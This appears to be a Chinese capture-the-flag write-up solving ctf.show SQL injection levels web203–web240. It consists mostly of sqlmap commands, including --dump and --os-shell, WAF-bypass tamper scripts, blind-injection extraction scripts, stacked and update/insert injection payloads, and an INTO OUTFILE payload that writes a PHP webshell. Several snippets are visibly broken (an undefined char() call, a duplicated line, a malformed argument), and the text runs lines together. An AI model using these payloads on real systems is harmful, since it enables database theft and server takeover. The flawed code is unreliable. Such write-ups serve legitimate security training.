python sqlmap.py -u "https://a7352dd5-2c20-40e5-bef5-6aaa79676dcc.challenge.ctf.show/api/" --referer="ctf.show" --data="id=1" -D ctfshow_web -T ctfshow_user -C "id,pass,username" --dumpweb203(–method=PUT)
HTTP PUT 请求方法创建一个新的资源或用请求的有效载荷替换目标资源的表示。
PUT 与 POST 方法的区别是，PUT 方法是幂等的：调用一次与连续调用多次效果是相同的（即没有副作用），而连续调用多次相同的 POST 方法可能会有副作用，比如多次提交同一订单。
指定--method=PUT方法，同时**加上--headers="Content-Type:text/plain**，否则put接受不了。同时，要加上index.php，url/api/index.php
python sqlmap.py -u "https://6792f785-47eb-4ea4-b098-0123488759c4.challenge.ctf.show/api/index.php" --referer="ctf.show" --method=PUT --headers="Content-Type:text/plain" --data="id=1" -D ctfshow_web -T ctfshow_user -C "id,pass,username" --dumpweb204(–cookie)
python sqlmap.py -u "https://87742487-acec-4728-91da-8113d95b32cf.challenge.ctf.show/api/index.php" --referer="ctf.show" --method=PUT --headers="Content-Type:text/plain" --cookie="PHPSESSID=9tgbnd43m59t71te1u80d66pjs; ctfshow=8c61071229d48923c7ced01b20ec493e" --data="id=1" -D ctfshow_web -T ctfshow_user -C "id,pass,username" --dumppython sqlmap.py -u "https://87742487-acec-4728-91da-8113d95b32cf.challenge.ctf.show/api/index.php" --referer="ctf.show" --method=PUT --headers="Content-Type:text/plain" --cookie="PHPSESSID=9tgbnd43m59t71te1u80d66pjs; ctfshow=8c61071229d48923c7ced01b20ec493e" --data="id=1" --dbms=mysql dbs=ctfshow_web -T ctfshow_user -C "id,pass,username" --dumpweb205(api权限)
api调用需要鉴权
--safe-url 设置在测试目标地址前访问的安全链接--safe-freq 设置两次注入测试前访问安全链接的次数通过F12中network抓包可以看见，有一个getToken.php的请求token的动作；
python sqlmap.py -u "https://a530a88b-1bce-49ce-bfee-18b37febf906.challenge.ctf.show/api/index.php" --referer="ctf.show" --method=PUT --headers="Content-Type:text/plain" --cookie="PHPSESSID=bllqt44686hm6msc9ti5ruevpb" --safe-url="https://a530a88b-1bce-49ce-bfee-18b37febf906.challenge.ctf.show/api/getToken.php" --safe-freq=1 --data="id=1" --dbms=mysql -D ctfshow_web -T ctfshow_flax -C flagx --dump这个题换了表名和列名
web206
sql需要闭合，sqlmap会自动闭合，Payload同上
python sqlmap.py -u "https://34b88ba2-58d2-4a8c-9b6f-3b1b0e663a27.challenge.ctf.show/api/index.php" --referer="ctf.show" --method=PUT --headers="Content-Type:text/plain" --cookie="PHPSESSID=3ehcblk49o3nqd3hp3nqsdr0ga" --safe-url="https://34b88ba2-58d2-4a8c-9b6f-3b1b0e663a27.challenge.ctf.show/api/getToken.php" --safe-freq=1 --data="id=1" --dbms=mysql -D ctfshow_web -T ctfshow_flaxc -C flagv --dumpweb207(–tamper)
--batch使用默认的选项进行注入，无需用户输入和交互--prefix=PREFIX指定payload的前缀--suffix=SUFFIX指定payload的后缀
题目对空格进行了过滤，所以我们可以考虑用space2comment.py这个脚本，将空格转换成注释符来绕过
python sqlmap.py -u "https://f1d1f0d1-9da8-4cf2-adfd-ff1d3a54a79f.challenge.ctf.show/api/index.php" --referer="ctf.show" --method=PUT --data="id=1" --prefix="')" --headers="Content-Type:text/plain" --safe-url="https://f1d1f0d1-9da8-4cf2-adfd-ff1d3a54a79f.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flaxca -C flagvc --dump --batch --tamper=space2commentweb208
对小写的select和空格进行了绕过，不过sqlmap中的select都是大写的
#!/usr/bin/env python
import os
from lib.core.common import singleTimeWarnMessage
from lib.core.enums import DBMS
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.HIGHEST
def tamper(payload, **kwargs):
if payload:
payload = payload.replace("SELECT", "select")#就修改这一行了
return payloadpython sqlmap.py -u "https://f1d1f0d1-9da8-4cf2-adfd-ff1d3a54a79f.challenge.ctf.show/api/index.php" --referer="ctf.show" --method=PUT --data="id=1" --prefix="')" --headers="Content-Type:text/plain" --safe-url="https://f1d1f0d1-9da8-4cf2-adfd-ff1d3a54a79f.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flaxcac -C flagvca --dump --batch --tamper=space2commentweb209
过滤了 ，*号和=，
python sqlmap.py -u https://d5249ee4-9520-4049-a7f0-d3cc15ccc88a.challenge.ctf.show/api/index.php --data="id=1" --user-agent=sqlmap --refer="ctf.show" --method="PUT" --headers="Content-Type:text/plain" --safe-url="https://d5249ee4-9520-4049-a7f0-d3cc15ccc88a.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=1763p4504m3dcol5349rfgt5q9" --tamper web209.py -D ctfshow_web -T ctfshow_flav -C ctfshow_flagx --dump --batch#!/usr/bin/env python
"""
Copyright (c) 2006-2024 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def dependencies():
pass
def tamper(payload, **kwargs):
"""
Replaces space character (' ') with comments '/**/'
Tested against:
* Microsoft SQL Server 2005
* MySQL 4, 5.0 and 5.5
* Oracle 10g
* PostgreSQL 8.3, 8.4, 9.0
Notes:
* Useful to bypass weak and bespoke web application firewalls
>>> tamper('SELECT id FROM users')
'SELECT/**/id/**/FROM/**/users'
"""
retVal = payload
if payload:
retVal = ""
quote, doublequote, firstspace = False, False, False
for i in xrange(len(payload)):
if not firstspace:
if payload[i].isspace():
firstspace = True
retVal += "/**/"
continue
elif payload[i] == '\'':
quote = not quote
elif payload[i] == '"':
doublequote = not doublequote
elif payload[i] == "*":
retVal += chr(0x2A)
continue
elif payload[i] == "=":
retVal += chr(0x0a) + 'like' + chr(0x0a)
continue
elif payload[i] == " " and not doublequote and not quote:
# retVal += "/**/"
retVal += char(0x0a)
continue
retVal += payload[i]
return retVal
web210
//对查询字符进行解密
function decode($id){
return strrev(base64_decode(strrev(base64_decode($id))));
}
对传入的id 进行解密处理 从而让sql语句无法执行成功
按照他的方式 反着构造一个加密脚本 这样传进去后 服务器对id进行一系列操作就变成了 我们想到的id的值了
python sqlmap.py -u https://30e6ea25-0680-4bf6-af39-8be519b7bd22.challenge.ctf.show/api/index.php --data="id=1" --user-agent=sqlmap --refer="ctf.show" --method="PUT" --headers="Content-Type:text/plain" --safe-url="https://30e6ea25-0680-4bf6-af39-8be519b7bd22.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=9j6o3g1dvnmvg061n1kbjlruvp" --tamper web210.py -D ctfshow_web -T ctfshow_flavi -C ctfshow_flagxx --dump --batchweb210.py
#!/usr/bin/env python
"""
Author:Y4tacker
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
import base64
__priority__ = PRIORITY.LOW
def tamper(payload, **kwargs):
payload = space2comment(payload)
retVal = ""
if payload:
retVal = base64.b64encode(payload[::-1].encode('utf-8'))
retVal = base64.b64encode(retVal[::-1]).decode('utf-8')
return retVal
def space2comment(payload):
retVal = payload
if payload:
retVal = ""
quote, doublequote, firstspace = False, False, False
for i in xrange(len(payload)):
if not firstspace:
if payload[i].isspace():
firstspace = True
retVal += chr(0x0a)
continue
elif payload[i] == '\'':
quote = not quote
elif payload[i] == '"':
doublequote = not doublequote
elif payload[i] == "*":
retVal += chr(0x31)
continue
elif payload[i] == "=":
retVal += chr(0x0a)+'like'+chr(0x0a)
continue
elif payload[i] == " " and not doublequote and not quote:
retVal += chr(0x0a)
continue
retVal += payload[i]
return retVal
web211
过滤了 在web210的基础上过滤了空格 将空格替换成%0a，但是之前脚本依旧可以
python sqlmap.py -u https://f2caf00e-910a-4b69-9561-e6da6b0fb648.challenge.ctf.show/api/index.php --data="id=1" --user-agent=sqlmap --refer="ctf.show" --method="PUT" --headers="Content-Type:text/plain" --safe-url="https://f2caf00e-910a-4b69-9561-e6da6b0fb648.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=vueov0jlmgnnbpnr8bgovga6r8" --tamper web210.py -D ctfshow_web -T ctfshow_flavia -C ctfshow_flagxxa --dump --batchweb212
多过滤了*，Payload同上
python sqlmap.py -u https://c9220216-1978-4f6d-afa6-3fbba4ac7dfb.challenge.ctf.show/api/index.php --data="id=1" --user-agent=sqlmap --refer="ctf.show" --method="PUT" --headers="Content-Type:text/plain" --safe-url="https://c9220216-1978-4f6d-afa6-3fbba4ac7dfb.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=4ob2ad7so7hia0pjdds9df53rj" --tamper web210.py -D ctfshow_web -T ctfshow_flavia -C ctfshow_flagxxa --dump --batchweb213(–os-shell)
使用刚才的tamper脚本就行，但是最后使用--os-shell进入shell交互就行
python sqlmap.py -u "https://a3fc1f89-804d-42f5-a05a-16a174522da2.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID=mqte5lhv097hu0km2aq9c4qqri" --safe-url="https://a3fc1f89-804d-42f5-a05a-16a174522da2.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web210.py --os-shellweb214(时间盲注)
刷新首页抓包得到注入点(我用https的时候没抓到，http就可以了)
然后就是进行时间盲注
import requests
url = "https://8b0ff336-3094-4316-b708-b0d88f596b52.challenge.ctf.show/api/"
i = 0
flag = ''
while True:
head = 32
tail = 127
i += 1
while head < tail:
# 查库名
# payload = "select group_concat(table_schema) from information_schema.schemata"
# 查表名 ctfshow_flagx,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 查列名 id,flaga,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'"
# getFlag
payload = "select flaga from ctfshow_flagx"
mid = (head + tail) >> 1
data = {
'ip': f"if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)",
'debug': '0'
}
try:
response = requests.post(url, data=data, timeout=1)
tail = mid
except Exception as e:
head = mid + 1
if head != 32:
flag += chr(head)
print("[+] {} is right".format(chr(head)))
print(flag)
else:
break
web215
使用单引号闭合，后面使用#或者闭合
import requests
url = "https://1959b6f7-1317-4f83-a586-f487063f8d90.challenge.ctf.show/api/"
flag = ''
i = 0
while True:
i = i + 1
head = 32
tail = 127
while head < tail:
mid = (head + tail) >> 1
# 查库名
# payload = "select group_concat(table_schema) from information_schema.schemata"
# 查表名 ctfshow_flagxc,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 查列名 id,flagaa,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'"
# getFlag
payload = "select flagaa from ctfshow_flagxc"
data = {
"ip": f"1' or if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1) and '1'='1",
"debug": "1"
}
try:
response = requests.request("POST", url, data=data, timeout=1)
tail = mid
except Exception as e:
head = mid + 1
if head != 32:
flag += chr(head)
print("[+] {} is right".format(chr(head)))
print(flag)
else:
break
web216(to_base64)
select id from ctfshow_info where ip = from_base64(127.0.0.1);将Payload进行base64编码并闭合即可
import requests
url = "https://7d8b8dba-70c3-4c4e-8065-f936f72d0187.challenge.ctf.show/api/"
flag = ''
i = 0
while True:
i = i + 1
head = 32
tail = 127
while head < tail:
mid = (head + tail) >> 1
# 查库名
# payload = "select group_concat(table_schema) from information_schema.schemata"
# 查表名 ctfshow_flagxcc,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 查列名 id,flagaac,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxcc'"
# getFlag
payload = "select flagaac from ctfshow_flagxcc"
data = {
"ip": f"'MQ==') or if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)#",
"debug": "1"
}
try:
response = requests.request("POST", url, data=data, timeout=1)
tail = mid
except Exception as e:
head = mid + 1
if head != 32:
flag += chr(head)
print("[+] {} is right".format(chr(head)))
print(flag)
else:
break
web217(benchmark)
sleep被ban了
sql时间盲注另外两种方式(benchmark,heavy query)
benchmark()
benchmark是Mysql的一个内置函数,其作用是来测试一些函数的执行速度。benchmark()中带有两个参数，第一个是执行的次数，第二个是要执行的函数或者是表达式
mysql> select BENCHMARK(10000,md5('a'));
+---------------------------+
| BENCHMARK(10000,md5('a')) |
+---------------------------+
| 0 |
+---------------------------+
1 row in set (0.00 sec)
mysql> select BENCHMARK(1000000,md5('a'));
+-----------------------------+
| BENCHMARK(1000000,md5('a')) |
+-----------------------------+
| 0 |
+-----------------------------+
1 row in set (0.33 sec)
mysql> select BENCHMARK(10000000,md5('a'));
+------------------------------+
| BENCHMARK(10000000,md5('a')) |
+------------------------------+
| 0 |
+------------------------------+
1 row in set (2.93 sec)可以看到,执行不同的次数那么执行的时间也就不一样，通过这个函数我们可以达到与sleep()同样的延时目的。
ip=1) and if(2>1,(select count(*) from((select table_name from information_schema.columns)a,(select table_name from information_schema.columns)b,(select table_name from information_schema.columns limit 1,2)c)),1&debug=1import requests
url = "https://92f2c52d-9e13-4d63-8711-5eea7dcd5ac4.challenge.ctf.show/api/"
flag = ''
i = 30
while True:
i = i + 1
head = 32
tail = 127
while head < tail:
mid = (head + tail) >> 1
# 查库名
# payload = "select group_concat(table_schema) from information_schema.schemata"
# 查表名 ctfshow_flagxccb,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 查列名 id,flagaabc,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxccb'"
# getFlag
payload = "select flagaabc from ctfshow_flagxccb"
data = {
"ip": f"1) or if(ascii(substr(({payload}),{i},1))>{mid},benchmark(700000,md5(1)),1",
"debug": "1"
}
try:
response = requests.request("POST", url, data=data, timeout=0.5)
tail = mid
except Exception as e:
head = mid + 1
if head != 32:
flag += chr(head)
print("[+] {} is right".format(chr(head)))
print(flag)
else:
break
web218
benchmark被ban了
还有一种方法 使用查询语句 查询大量数据从而消耗时间
本地先演示一次 users一共六条数据 最终会有36条数据 6*6=36 form后 如果是逗号 会进行排列组合 如果表足够大那么查询的数据也就相
当大（原理不用理解 记住这么用能查询大量数据即可）该方式叫笛卡尔积
import requests
url = "https://2ba8df77-69bf-43d4-99e0-b2689ef71af6.challenge.ctf.show/api/"
flag = ''
i = 7
while True:
i = i + 1
head = 32
tail = 127
while head < tail:
mid = (head + tail) >> 1
# 查库名
# payload = "select group_concat(table_schema) from information_schema.schemata"
# 查表名 ctfshow_flagxc,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 查列名 id,flagaac,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'"
# getFlag
payload = "select flagaac from ctfshow_flagxc"
data = {
"ip": f"1) and if(ascii(substr(({payload}),{i},1))>{mid},(select count(*) from((select table_name from information_schema.columns)a,(select table_name from information_schema.columns)b,(select table_name from information_schema.columns limit 1,2)c)),1",
"debug": "1"
}
try:
response = requests.request("POST", url, data=data, timeout=1)
tail = mid
except Exception as e:
head = mid + 1
if head != 32:
flag += chr(head)
print("[+] {} is right".format(chr(head)))
print(flag)
else:
break
# ctfshow{f470e6gb-3856-42D3-ae55-402e84412f0P}
# ctfshow{f47hc6hb-3856-4293-ae55-402e84412f04}
# ctfshow{f470c7dh-3856-4293-ae55-402e84412f04}
# ctfshow{f470c6db-3856-4293-ae55-402e84412f04} √
web219
多屏蔽了一个rlike（也是延时的一种方法） 上一题脚本依旧可以
web220
过滤了substr 那就使用left即可 并且过滤了concat 导致我们group_concat 不 能使用 但是可以是用limit 逐行获取
limit N,M : 相当于 limit M offset N , 从第 N 条记录开始, 返回 M 条记录
另外ascii也被ban了，所以直接比较字符串
import requests
url = "https://83d3e450-cfe1-4e34-9769-2021e662fa03.challenge.ctf.show/api/"
flag = ''
flagdic = "1234567890-_{}qwertyuioplkjhgfdsazxcvbnm, "
i = 0
while True:
i = i + 1
for j in flagdic:
# 查库名
# payload = "select group_concat(table_schema) from information_schema.schemata"
# 查表名 ctfshow_flagxcac,ctfshow_info
# payload = "select table_name from information_schema.tables where table_schema=database() limit 0,1"
# 查列名 id,flagaabcc,info
# payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1"
# getFlag
payload = "select flagaabcc from ctfshow_flagxcac"
tmp = flag + j
data = {
"ip": f"1) and if(left(({payload}),{i})='{tmp}',(select count(*) from((select table_name from information_schema.columns)a,(select table_name from information_schema.columns)b,(select table_name from information_schema.columns limit 1,2)c)),1",
"debug": "1"
}
if j == ' ':
exit()
try:
response = requests.request("POST", url, data=data, timeout=1)
except Exception as e:
flag += j
print("[+] {} is right".format(j))
print(flag)
break
web221(limit注入)
查询语句
//分页查询
$sql = select * from ctfshow_user limit ($page-1)*$limit,$limit;
返回逻辑
//TODO:很安全，不需要过滤
//拿到数据库名字就算你赢
1）limit前面没有order by时，后面可以跟union，如果存在order by，则不能使用union。
2）limit后面不能直接跟select语句和if语句。可以跟procedure语句，值得注意的是只有在5.0.0< MySQL <5.6.6版本才可以使用，procedure后面支持报错注入以及时间盲注
3）limit 关键字后面还可跟PROCEDURE和 INTO两个关键字，但是 INTO 后面写入文件需要知道绝对路径以及写入shell的权限，因此利用比较难。
/api/?page=1&limit=1 procedure analyse(extractvalue(rand(),concat(0x3a,database())),1)web222(group注入)
查询语句
//分页查询
$sql = select * from ctfshow_user group by $username;
延时盲注，例如
group by if(1=1,sleep(1),1)但要注意的是，group by会向下一直查询，数据库里总共有21条数据，如果我们是sleep(0.05)则是停顿1.05秒
import requests
url = "https://cfb15639-dd8d-4146-a2c1-5b6e2e349162.challenge.ctf.show/api/"
flag = ''
i = 0
while True:
i = i + 1
head = 32
tail = 127
while head < tail:
mid = (head + tail) >> 1
# 查库名
# payload = "select group_concat(table_schema) from information_schema.schemata"
# 查表名 ctfshow_flaga,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 查列名 id,flagaabc,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flaga'"
# getFlag
payload = "select flagaabc from ctfshow_flaga"
params = {
"u": f"concat((if(ascii(substr(({payload}),{i},1))>{mid}, sleep(0.05), 2)),1);"
}
try:
response = requests.get(url, params=params, timeout=1)
tail = mid
except Exception as e:
head = mid + 1
if head != 32:
flag += chr(head)
print("[+] {} is right".format(chr(head)))
print(flag)
else:
break
web223
group by 位置注入，和上一题差不多，不过这次再尝试会发现禁用了数字，改用 true 构造数字。
import requests
def generateNum(n):
res = 'true'
if n == 1:
return res
else:
for i in range(n-1):
res += "+true"
return res
url = "https://9fb07532-bf0d-4e1c-b4aa-241e19c88933.challenge.ctf.show/api/"
flag = ''
i = 0
while True:
i = i + 1
head = 32
tail = 127
while head < tail:
mid = (head + tail) >> 1
# 查库名
# payload = "select group_concat(table_schema) from information_schema.schemata"
# 查表名 ctfshow_flagas,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 查列名 id,flagasabc,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagas'"
# getFlag
payload = "select flagasabc from ctfshow_flagas"
params = {
"u": f"(if(ascii(substr(({payload}),{generateNum(i)},{generateNum(1)}))>{generateNum(mid)}, username, 'a'))"
}
response = requests.get(url, params=params)
if "userAUTO" in response.text:
head = mid + 1
else:
tail = mid
if head != 32:
flag += chr(head)
print("[+] {} is right".format(chr(head)))
print(flag)
else:
break
web224(文件名注入)
查看/robots.txt，发现/pwdreset.php，进去后可以重置admin密码，然后是进行文件上传，但是上传什么文件都是类型错误
文件名注入，下载群里的payload.bin，十六进制的意思是
<?=`$_GET[1]?`>然后进行Rce就行
upload.php
<?php
error_reporting(0);
if ($_FILES["file"]["error"] > 0)
{
die("Return Code: " . $_FILES["file"]["error"] . "<br />");
}
if($_FILES["file"]["size"]>10*1024){
die("文件过大: " .($_FILES["file"]["size"] / 1024) . " Kb<br />");
}
if (file_exists("upload/" . $_FILES["file"]["name"]))
{
echo $_FILES["file"]["name"] . " already exists. ";
}
else
{
$filename = md5(md5(rand(1,10000))).".zip";
$filetype = (new finfo)->file($_FILES['file']['tmp_name']);
if(preg_match("/image|png|bmap|jpg|jpeg|application|text|audio|video/i",$filetype)){
die("file type error");
}
$filepath = "upload/".$filename;
$sql = "INSERT INTO file(filename,filepath,filetype) VALUES ('".$filename."','".$filepath."','".$filetype."');";
move_uploaded_file($_FILES["file"]["tmp_name"],
"upload/" . $filename);
$con = mysqli_connect("localhost","root","root","ctf");
if (!$con)
{
die('Could not connect: ' . mysqli_error());
}
if (mysqli_multi_query($con, $sql)) {
header("location:filelist.php");
} else {
echo "Error: " . $sql . "<br>" . mysqli_error($con);
}
mysqli_close($con);
}
?>
查询语句：
$sql = "INSERT INTO file(filename,filepath,filetype) VALUES ('".$filename."','".$filepath."','".$filetype."');";
一般写成16进制形式，避免语句本身的单引号双引号对拼接造成干扰

本地测试发现，写进去的16进制会自动被计算机识别出ASCII
用到exiftool工具把这个语句写到图片属性里面 语法：
exiftool -overwrite_original -comment="y1ng\"');select 0x3C3F3D60245F504F53545B305D603B into outfile '/var/www/html/1.php';--+"
web225(堆叠plus handler)
查询语句
//分页查询
$sql = "select id,username,pass from ctfshow_user where username = '{$username}';";
返回逻辑
//师傅说过滤的越多越好
if(preg_match('/file|into|dump|union|select|update|delete|alter|drop|create|describe|set/i',$username)){
die(json_encode($ret));
}
handler
?username=ctfshow';show tables;
?username=ctfshow';handler `ctfshow_flagasa` open;handler `ctfshow_flagasa` read first;预处理
利用concat绕过一切过滤，之后就是替换后面的database()为想要执行的语句即可，别忘了加空格
对于不知道啥是预处理：SQl注入强网杯 2019
username=user1';PREPARE y4tacker from concat('s','elect', ' database()');EXECUTE y4tacker;当然concat(char(115,101,108,101,99,116)也可以代替select
show 展示一下表名列名
';show tables;#
';show columns from `ctfshow_flagasa`;#web226
//师傅说过滤的越多越好
if(preg_match('/file|into|dump|union|select|update|delete|alter|drop|create|describe|set|show|\(/i',$username)){
die(json_encode($ret));
}
ban了show 和(，可以使用16进制绕过
?username=user1';PREPARE hsad from 0x73656c6563742067726f75705f636f6e636174287461626c655f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d64617461626173652829;EXECUTE hsad;select flagasb from ctfsh_ow_flagas
?username=user1';PREPARE hsad from 0x73656c65637420666c61676173622066726f6d2063746673685f6f775f666c61676173;EXECUTE hsad;web227(information_schema.Routines)
这道题，你就算找遍所有地方基本上都找不到flag表
先给出其中一个payload1';call getFlag();虽然能得到答案但是意义不大
这道题考点其实是查看MySQL的存储过程
MySQL——查看存储过程和函数
查看存储过程和函数的信息
在 MySQL 中，存储过程和函数的信息存储在information_schema数据库下的Routines表中，可以通过查询该表的记录来查询存储
过程和函数的信息，其基本的语法形式如下:
SELECT * FROM information_schema.Routines
WHERE ROUTINE_NAME=' sp_name';其中，ROUTINE_NAME 字段中存储的是存储过程和函数的名称; sp_name 参数表示存储过程或函数的名称。
我们去查information_schema.routines表
可以看到getFlag函数，当然flag直接就有
web228
查询语句
//分页查询
$sql = "select id,username,pass from ctfshow_user where username = '{$username}';";
$bansql = "select char from banlist;";
返回逻辑
//师傅说内容太多，就写入数据库保存
if(count($banlist)>0){
foreach ($banlist as $char) {
if(preg_match("/".$char."/i", $username)){
die(json_encode($ret));
}
}
}
select flagasba from ctfsh_ow_flagasaa
?username=user1';PREPARE hsad from 0x73656c65637420666c6167617362612066726f6d2063746673685f6f775f666c616761736161;EXECUTE hsad;web229
select flagasba from flag
?username=user1';PREPARE hsad from 0x73656c65637420666c6167617362612066726f6d20666c6167;EXECUTE hsad;web230
select flagasbas from flagaabbx
?username=user1';PREPARE hsad from 0x73656c65637420666c616761736261732066726f6d20666c61676161626278;EXECUTE hsad;web231(update注入)
查询语句
//分页查询
$sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
POST:
查表名 banlist,ctfshow_user,flaga
password=ctfshow',username=(select group_concat(table_name) from information_schema.tables where table_name=database())#&username=no
查列名 id,flagas,info
password=ctfshow',username=(select group_concat(column_name) from information_schema.columns where table_name='flaga')#&username=no
getFlag
password=ctfshow',username=(select flagas from flaga)#&username=noweb232
和上一题相比多给 password 套了一层 md5 函数后面还有个)注意闭合，对后面的 username 无影响。
POST:
查表名 banlist,ctfshow_user,flagaa
password=ctfshow'),username=(select group_concat(table_name) from information_schema.tables where table_name=database())#&username=no
查列名 id,flagass,info
password=ctfshow'),username=(select group_concat(column_name) from information_schema.columns where table_name='flaga')#&username=no
getFlag
password=ctfshow'),username=(select flagas from flaga)#&username=noweb233
禁用了'，但是可以用\
假设我们password传入\，username传入,username=database()#
那么最终构成的语句如下
update ctfshow_user set pass = '\' where username = ',username=database()#'
等价于
update ctfshow_user set pass = 'x',username=database()#'所以就可以绕过了。
payload
#获取表名 banlist,ctfshow_user,flag233333
password=\&username=,username=(select group_concat(table_name) from information_schema.tables where table_schema=database())%23
#获取列名 id,flagass233,info
password=\&username=,username=(select group_concat(column_name) from information_schema.columns where table_name='flag233333')%23
#获取数据
password=\&username=,username=(select group_concat(flagass233) from flag233333)%23也可以使用盲注
import requests
url = "https://c095983b-1faf-4d65-a053-ba620caed799.challenge.ctf.show/api/?page=1&limit=10"
flag = ""
i = 0
while 1:
i = i + 1
head = 32
tail = 127
while head < tail:
mid = (head + tail) >> 1
# 查数据库
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 查表名
# payload = "select column_name from information_schema.columns where table_name='flag233333' limit 1,1"
# 查数据
payload = "select flagass233 from flag233333"
data = {
'username': f"1' or if(ascii(substr(({payload}),{i},1))>{mid},sleep(0.05),1)#",
'password': '4'
}
try:
r = requests.post(url, data=data, timeout=0.9)
tail = mid
except Exception as e:
head = mid + 1
if head != 32:
flag += chr(head)
flag += chr(head)
print("[+] {} is right".format(chr(head)))
print(flag)
else:
break
web234
#获取表名 banlist,ctfshow_user,flag23a
password=\&username=,username=(select group_concat(table_name) from information_schema.tables where table_schema=database())%23
#获取列名 id,flagass23s3,info
password=\&username=,username=(select group_concat(column_name) from information_schema.columns where table_name=0x666c6167323361)%23
#获取数据
password=\&username=,username=(select group_concat(flagass23s3) from flag23a)%23web235(mysql.innodb_table_stats 无列名注入)
//过滤 or ' 因为or被禁导致information_schema.tables也被禁了，我们可以用表mysql.innodb_table_stats和mysql.innodb_index_stats
来代替。
5.6.6开始，MySQL默认使用了持久化统计信息，即INNODB_STATS_PERSISTENT=ON，持久化统计信息保存在表mysql.innodb_table_stats和mysql.innodb_index_stats。
#获取表名 banlist,ctfshow_user,flag23a1
password=\&username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())#
#查数据——组合 0x2d --> -
password=\&username=,username=(select concat(`1`,0x2d,`2`,`3`) from (select 1,2,3 union select * from flag23a1 limit 1,1)a);#
#查数据——重命名，当`被过滤的时候
password=\
&username=,username=(select b from (select 1,2 as b,3 union select * from flag23a1 limit 1,1)a);#
web236
//过滤 or ' flag过滤的是返回的flag，所以用to_base64绕过
#获取表名 banlist,ctfshow_user,flaga
password=\&username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())#
#查数据——组合 0x2d --> -
password=\&username=,username=(select concat(`1`,0x2d,to_base64(`2`),`3`) from (select 1,2,3 union select * from flaga limit 1,1)a);#
#查数据——重命名，当`被过滤的时候
password=\&username=,username=(select to_base64(b) from (select 1,2 as b,3 union select * from flaga limit 1,1)a);#
web237(insert注入)
//插入数据
$sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";向value值内进行插入，和update注入的逻辑一样
insert into table_name(column1, column2) value(value1,value2)
向value1进行注入，就会变成
insert into table_name(column1, column2) value( value1,(你想要输出的值) )#value2)
所以要注意对最后一个括号的闭合
# 查表名 banlist,ctfshow_user,flag
username=z',(select group_concat(table_name) from information_schema.tables where table_schema=database()))#&password=1
# 查列名 id,flagass23s3,info
username=zz',(select group_concat(column_name) from information_schema.columns where table_name='flag'))#&password=1
# getFlag
username=zzz',(select flagass23s3 from flag))#&password=1web238
过滤了空格可以用()绕过
# 查表名 banlist,ctfshow_user,flagb
username=z',(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())))#&password=1
# 查列名 id,flag,info
username=zz',(select(group_concat(column_name))from(information_schema.columns)where(table_name='flagb')))#&password=1
# getFlag
username=zzz',(select(flag)from(flagb)))#&password=1web239
//过滤空格 or 和之前一样可以使用mysql.innodb_table_stats
# 查表名 banlist,ctfshow_user,flagbb
username=z',(select(group_concat(table_name))from(mysql.innodb_table_stats)where(database_name=database())))#&password=1
# getFlag
username=zz',(select(flag)from(flagbb)))#&password=1
# 不知道为什么无列名注入不行，wp都是盲猜列名
username=zz',(select(concat(`1`,0x2d,`2`,`3`))from((select(1,2,3)(union)select(*)from(flagbb)limit(1,1))a)))#&password=1
select(concat(`1`,0x2d,`2`,`3`))from((select(1,2,3)(union)select(*)from(flagbb)limit(1,1))a)web240
Hint: 表名共9位，flag开头，后五位由a/b组成，如flagabaab，全小写
//过滤空格 or sys mysql表名靠爆破列名靠猜
import requests
import re
post_url = "https://3db7384a-eef6-48e0-978e-5d0ddd2f9099.challenge.ctf.show/api/insert.php"
flag_url = "https://3db7384a-eef6-48e0-978e-5d0ddd2f9099.challenge.ctf.show/api/?desc&page=1&limit=10"
payloads = [{
"username": "\\",
"password": f",(select(flag)from(flag{a})))#"
} for a in [f"{a}{b}{c}{d}{e}" for a in "ab" for b in "ab" for c in "ab" for d in "ab" for e in "ab"]]
pattern = re.compile(r'ctfshow{[0-9a-fA-F\-]+}')
for payload in payloads:
response = requests.post(post_url, data=payload)
response_flag = requests.get(flag_url)
